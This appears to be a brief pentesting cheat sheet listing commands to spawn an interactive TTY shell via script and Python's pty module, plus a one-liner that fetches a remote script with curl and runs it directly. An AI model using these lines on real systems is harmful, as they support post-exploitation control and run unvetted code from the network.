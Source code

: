 
- Spawn TTY shell: `/usr/bin/script -qc /bin/bash /dev/null` 
  - to add PWD in bash: `PS1='\u@\h:\w\$ '`


- Spawn Python TTY Shell: `python -c 'import pty;pty.spawn("/bin/bash")'`


- Run script from URL: `source <(curl -s http://mywebsite.com/myscript.sh)`
